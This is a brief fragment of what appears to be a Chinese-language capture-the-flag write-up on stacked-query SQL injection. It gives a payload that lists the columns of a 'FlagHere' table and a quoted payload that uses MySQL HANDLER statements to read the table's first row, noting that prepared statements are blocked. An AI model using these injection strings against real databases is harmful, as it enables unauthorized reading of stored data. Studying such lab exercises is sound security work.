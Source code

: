  1';show columns from `FlagHere`;#

 ![](img/0089827762cc8c40d94966e234c5bb4a.png)

 因为预编译啥的都被禁用了，这里贴贴大佬payload

```
1';
HANDLER FlagHere OPEN;
HANDLER FlagHere READ FIRST;
HANDLER FlagHere CLOSE;#
```

 ![](img/3f6ff684ef7bffcd7ff4280eb55e34f9.png)
